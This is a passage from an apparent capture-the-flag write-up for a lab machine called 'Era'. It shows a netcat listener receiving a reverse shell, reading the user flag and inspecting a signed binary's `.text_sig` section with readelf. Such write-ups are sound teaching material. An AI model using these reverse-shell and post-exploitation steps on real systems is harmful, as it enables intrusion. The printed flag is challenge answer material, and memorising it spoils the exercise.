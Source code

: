     {'PHPSESSID': '95shliirm72gcsm1iifc0ckujd'}


That gateway timeout on this end is because I'm too busy celebrating on another terminal.

```sh
 nc -lvn 9999
Listening on 0.0.0.0 9999
Connection received on 10.129.19.197 48758
bash: cannot set terminal process group (16912): Inappropriate ioctl for device
bash: no job control in this shell
eric@era:~$ ls
ls
user.txt
eric@era:~$ cat user.txt
cat user.txt
1396c609a0ddc3a1e64c50921706ebc7
eric@era:~$ netstat -tulpn
netstat -tulpn
(Not all processes could be identified, non-owned process info
 will not be shown, you would have to be root to see it all.)
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
tcp        0      0 127.0.0.1:22            0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN      -                   
tcp6       0      0 :::21                   :::*                    LISTEN      -                   
tcp6       0      0 :::80                   :::*                    LISTEN      -                   
udp        0      0 127.0.0.53:53           0.0.0.0:*                           -                   
udp        0      0 0.0.0.0:68              0.0.0.0:*                           -   
```

Here we prove that ssh really is listening on a local interface.

Going through the system we find that /opt has a binary in a folder called `/opt/AV/periodic-checks` called `monitor` that looks to have some functionality that prints some status codes to a log file in the same directory. 

This is a standard ELF executable, and running strings on it to see if we can get some hint on its functionality, we see that yuri's name is included, in fact: yurivich's full name from the cert we found on FTP seems to be in here hinting that this binary was signed in some way with that private key potentially. 

Looking through the contents of the global table, we can see that there's a section included called `.text_sig` and this is the section that actually includes that name with some binary wrapped around it.

```sh
eric@era:~$ readelf -x .text_sig monitor
readelf -x .text_sig monitor

Hex dump of section '.text_sig':
  0x00000000 308201c6 06092a86 4886f70d 010702a0 0.....*.H.......
  0x00000010 8201b730 8201b302 0101310d 300b0609 ...0......1.0...
  0x00000020 60864801 65030402 01300b06 092a8648 `.H.e....0...*.H
  0x00000030 86f70d01 07013182 01903082 018c0201 ......1...0.....
  0x00000040 01306730 4f311130 0f060355 040a0c08 .0g0O1.0...U....
  0x00000050 45726120 496e632e 31193017 06035504 Era Inc.1.0...U.
  0x00000060 030c1045 4c462076 65726966 69636174 ...ELF verificat
  0x00000070 696f6e31 1f301d06 092a8648 86f70d01 ion1.0...*.H....
  0x00000080 09011610 79757269 76696368 40657261 ....yurivich@era
```